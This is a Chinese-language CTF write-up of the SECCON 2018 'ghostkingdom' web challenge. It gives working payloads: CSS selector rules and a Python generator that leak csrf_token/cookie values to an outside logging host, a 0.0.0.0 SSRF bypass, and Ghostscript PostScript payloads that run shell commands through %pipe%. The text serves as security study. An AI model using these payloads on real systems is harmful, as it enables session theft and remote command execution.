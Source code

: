 ```yaml
---
title: 2018SECCON ghostkingdom
date: 2018-10-29 18:25:00
tags:
	- writeup
---
```


# 前言

唯一的一道web题，周末有事去啦就没做上，赛后复盘了一下。

有两个之前没学过的知识点，`CSS injection`和`Ghost命令执行`（暑假出来的时候太懒就没复现T_T

这篇writeup想以另外一种形式来写，会更注重下这两个漏洞的原理和利用。

# ghostkingdom

## 主要功能

题目开始是个简单的注册登录，登录的时候仔细观察可以发现登录的账号密码是通过GET方式传输的（稍后会有用

进去之后有三个主要的功能点

![](2018SECCON-ghostkingdom\1.jpg)

- 给管理员发送消息（测试xss似乎不管用
- 截屏
- 上传图像（只有本地登录的用户才可以开启这个功能

一番测试之后，可以发现发送消息的url有一些端倪

```
http://ghostkingdom.pwn.seccon.jp/?css=c3BhbntiYWNrZ3JvdW5kLWNvbG9yOnJlZDtjb2xvcjp5ZWxsb3d9&msg=hello&action=msgadm2
```

明显可以看出是一段base64的编码，试图去修改之后进行xss

![](2018SECCON-ghostkingdom\2.jpg)

很不幸的是尖括号之类的字符被实体转义了。随后就想到一个从未用过但是之前在书上一老看到的利用CSS进行XSS

但是吧，学安全这玩意不动手确实是不行，试了半天在本地也没成功过，最后看了owasp中的一段话真相了

![](2018SECCON-ghostkingdom\3.jpg)

IE 7/8。。那不约等于没有这种漏洞利用手法。

## CSS injection

然后就是涉及到`CSS`的另外一种利用手法，利用`url（）`可以发送请求，来获取前端页面中的数据。

这里还需要关注到另外一个点就是`csrf_token`中的值和`Cookie`中的值是一致的。

也就意味着我们可以利用`CSS`来获取`Cookie`的值。

`screenshot`的界面有个比较明显的`SSRF`，虽然限制了一些关键字，但是还是可以用`0.0.0.0`或者十进制之类的方式绕过。

这里有个点一直没怎么搞懂，就是需要自己先通过截屏的功能登录一次，让对方服务器先带上cookie（比赛的时候那么多人，而且那么多服务器，不会出问题么?

只要通过如下的方式，就可以让对方服务器带上Cookie了。

```
http://0.0.0.0/?user=username&pass=password&action=login
```

然后就是通过构造包含恶意CSS的页面，来获取在`csrf_token`上的cookie值

```python
import base64
def getBase64(s):
    z = []
    for i  in  '0123456789abcdef':
        st = s + i
        z.append('input[value^="{}"] {{background: url(http://kingkk.com:23333?csrf={})}}'.format(st, st))
    return base64.b64encode('\n'.join(z))

def formatURL(s):
    return "http://0.0.0.0/?css={}&action=msgadm2".format(s)

print formatURL(getBase64('8dc4811759c90887a1f2d6'))
```

需要22次，就能依次爆出cookie的值

![](2018SECCON-ghostkingdom\5.jpg)

## Ghostscript rce

利用这个cookie登录之后就能访问上传图片的功能。

上传图片后还能进行`jpg`转`gif`的格式转换。

当上传一个不符合要求的图片的时候，会爆出一些错误

![](2018SECCON-ghostkingdom\6.jpg)

可以看到`convert`命令的错误信息。就会涉及到八月份底爆出的`Ghostscript`命令执行的漏洞

这里只要构造好对应的图片，就能进行任意代码执行，读取flag。（文件路径有相应的提示，就不多说

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%$(cat /var/www/html/FLAG/FLAGflagF1A8.txt)) currentdevice putdeviceprops
```

![](2018SECCON-ghostkingdom\7.jpg)



# CSS injection

当我们只能够控制`<style>`标签中的内容，无法进行标签逃逸时，可以通过一些特定的方式来获取页面中的数据。

比如`csrf_token`获取后台页面中的一些数据。

主要原理是通过css样式支持的一些匹配，以及`url`可以发起一次GET请求来进行攻击。

就像CTF题中的，想要获取`csrf_token`的值，就可以利用`input[name="scrf"]`来选中这个标签

![](2018SECCON-ghostkingdom\8.jpg)

然后再利用正则匹配

```css
input[name="scrf"][value^="0"] {background: url(http://kingkk.com:23333?csrf=0)}
input[name="scrf"][value^="1"] {background: url(http://kingkk.com:23333?csrf=1)}
input[name="scrf"][value^="2"] {background: url(http://kingkk.com:23333?csrf=2)}
input[name="scrf"][value^="3"] {background: url(http://kingkk.com:23333?csrf=3)}
input[name="scrf"][value^="4"] {background: url(http://kingkk.com:23333?csrf=4)}
input[name="scrf"][value^="5"] {background: url(http://kingkk.com:23333?csrf=5)}
input[name="scrf"][value^="6"] {background: url(http://kingkk.com:23333?csrf=6)}
input[name="scrf"][value^="7"] {background: url(http://kingkk.com:23333?csrf=7)}
input[name="scrf"][value^="8"] {background: url(http://kingkk.com:23333?csrf=8)}
input[name="scrf"][value^="9"] {background: url(http://kingkk.com:23333?csrf=9)}
input[name="scrf"][value^="a"] {background: url(http://kingkk.com:23333?csrf=a)}
input[name="scrf"][value^="b"] {background: url(http://kingkk.com:23333?csrf=b)}
input[name="scrf"][value^="c"] {background: url(http://kingkk.com:23333?csrf=c)}
input[name="scrf"][value^="d"] {background: url(http://kingkk.com:23333?csrf=d)}
input[name="scrf"][value^="e"] {background: url(http://kingkk.com:23333?csrf=e)}
input[name="scrf"][value^="f"] {background: url(http://kingkk.com:23333?csrf=f)}
```

当匹配到页面中value值为某一个特定的值时，就设置不同的**背景**（目的是为了利用`url`发送一次GET请求

GET的请求可以被访问日志给记录。这样，就可以利用这种匹配的手段，来获取页面中的一些值。从而窃取数据。



# Ghostscript rce

今年暑假新出的漏洞，当时以为是一门小众的编程语言，就没在意了。原来是用来处理图片的。

`ghostscript`用于处理图片，被内置在一些库中。网站中处理图片的功能还是比较常见的，听说当时好多人刷了一大波src

- imagemagick
- libmagick
- graphicsmagick
- gimp
- python-matplotlib
- texlive-core
- texmacs
- latex2html
- latex2rtf

由于C太菜，就不分析内部逻辑了，直接来看下利用。

需要ghostscript <= 9.23

然后只需要构造一个特定的图片，就可以任意代码执行。

Ubuntu

```gs
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

将id替换成别的语句就可以执行任意代码

```
(%pipe%$(cat /var/www/html/FLAG/FLAGflagF1A8.txt))
```

![](2018SECCON-ghostkingdom\9.jpg)

Centos中代码有些细微的差别

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

由于暂时没有centos虚拟机，就没验证了。

在平时渗透测试中，可以测试一些带有dnslog的poc，来测试是否存在该漏洞。


# Reference

https://xz.aliyun.com/t/3075

http://uuzdaisuki.com/2018/08/22/GhostScript%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/

https://bbs.ichunqiu.com/article-1705-1.html

